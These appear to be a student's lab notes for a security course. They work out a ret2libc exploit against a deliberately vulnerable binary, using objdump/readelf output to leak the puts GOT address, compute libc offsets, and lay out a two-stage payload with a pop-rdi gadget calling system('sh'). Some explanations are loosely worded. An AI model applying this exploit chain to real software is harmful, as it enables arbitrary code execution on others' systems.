 ## Find aslr offset: puts GOT vs puts PLT
```
chang-ch@xcne5:~/CS2107/impropercode$ objdump -D ipie -M intel | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp QWORD PTR [rip+0x2f8d]        # 404018 <puts@GLIBC_2.2.5>
  4012f8:       e8 83 fd ff ff          call   401080 <puts@plt>
  401315:       e8 66 fd ff ff          call   401080 <puts@plt>
```
- `puts_plt` = 0x401080 puts calls itself inside GOT, plt is leaked
- `bnd jmp QWORD PTR [rip+0x2f8d] # 404018 <puts@GLIBC_2.2.5>` -> puts leaks actual addr when it calls itself in GOT: `puts_GOT` = 0x404018


## prevent crash, return to main
```
chang-ch@xcne5:~/CS2107/impropercode$ objdump -D ipie -M intel | grep main
  4010f8:       ff 15 f2 2e 00 00       call   QWORD PTR [rip+0x2ef2]        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
00000000004011b6 <main>:
```
- `main_plt` = 0x4011b6, return to main, prevent crash

## Calculate offset SYSTEM from PUTS
```
chang-ch@xcne5:~$ readelf -s /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/libc.so.6 | grep puts
   195: 0000000000084450   476 FUNC    GLOBAL DEFAULT   15 _IO_puts@@GLIBC_2.2.5
   430: 0000000000084450   476 FUNC    WEAK   DEFAULT   15 puts@@GLIBC_2.2.5
   505: 0000000000124360  1268 FUNC    GLOBAL DEFAULT   15 putspent@@GLIBC_2.2.5
   692: 0000000000126030   728 FUNC    GLOBAL DEFAULT   15 putsgent@@GLIBC_2.10
  1160: 0000000000082d10   384 FUNC    WEAK   DEFAULT   15 fputs@@GLIBC_2.2.5
  1708: 0000000000082d10   384 FUNC    GLOBAL DEFAULT   15 _IO_fputs@@GLIBC_2.2.5
  2345: 000000000008e350   159 FUNC    WEAK   DEFAULT   15 fputs_unlocked@@GLIBC_2.2.5

chang-ch@xcne5:~$ readelf -s /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/libc.so.6 | grep system
   237: 0000000000153a00   103 FUNC    GLOBAL DEFAULT   15 svcerr_systemerr@@GLIBC_2.2.5
   619: 00000000000522c0    45 FUNC    GLOBAL DEFAULT   15 __libc_system@@GLIBC_PRIVATE
  1430: 00000000000522c0    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```
- `puts_libc` = 0x84450
- `system_libc` = 0x522c0
- offset = leaked puts_GOT - `puts_libc`.
- system_addr = offset + 0x522c0

---

### -no-pie -fno-stack-protector -g
```
64 * A + 70*b + 10 * C
rbp (8)
poprdi = 0x4013b3 (8)
sh(variable) = 0x404050 (8)
padret = 0x40101a (8) stack align
system = 0x7ffff7e1d2c0 (8) libc
exitt = 0x7ffff7e11a70 (8) libc
```
- debug ^ with: `break 29; set follow-fork-mode child; set variable IlikeTOnameVARIABLESlikeTHIS = "ls"`

problem:
- `set disable-randomization off`
- libc addr changed.

### Getting libc offset
```
64 * A + 70*b + 10 * C
rbp (8)
poprdi = 0x4013b3 (8)
puts_GOT = 0x404018
puts_plt = 0x401080
main_plt = 0x4011b6 (prevent crash)
END FIRST SEND

RECV puts_offset, calculate offset = leak - 0x84450 puts_libc

SECOND SEND:
64 * A + 70*b + 10 * C
rbp (8)
poprdi = 0x4013b3 (8)
sh(variable) = 0x404050 (8)
padret = 0x40101a (8) stack align
system = leaked puts_GOT - `puts_libc`
```
- `break 29; set disable-randomization off; run < test.bin; break puts`
- [changes] puts_got = `b"Pt\005\371\303\177"`
	- 0x7ffff7e4f450
- offset = got - libc = 0x7ffff7dcb000
- sys_GOT = 0x7ffff7e1d2c0
...
- `set variable IlikeTOnameVARIABLESlikeTHIS = "ls"`,
- `set follow-fork-mode child`,
- `break system`,
